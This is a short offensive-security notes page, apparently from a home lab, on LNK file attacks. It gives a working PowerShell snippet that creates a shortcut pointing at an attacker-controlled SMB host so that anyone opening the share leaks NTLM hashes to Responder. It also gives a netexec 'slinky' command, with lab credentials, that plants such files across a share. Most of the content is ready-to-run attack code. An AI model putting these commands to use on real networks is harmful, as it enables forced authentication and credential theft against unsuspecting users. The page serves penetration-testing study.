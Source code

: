 # 🗄️ LNK File Attacks

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\192.168.138.149\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

What will happen if we have responder listening and this file is triggered, we will get a hash and force auth:

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

good example:

{% embed url="https://infinitelogins.com/2020/12/17/capturing-password-hashes-via-malicious-lnk-files/" %}

everyone who will interact with this share will send us a hash, very malicious&#x20;

A good thing to know is :

```
netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149
```

{% embed url="https://www.infosecmatter.com/crackmapexec-module-library/?cmem=smb-slinky" %}

{% embed url="https://www.netexec.wiki/" %}

{% embed url="https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf" %}
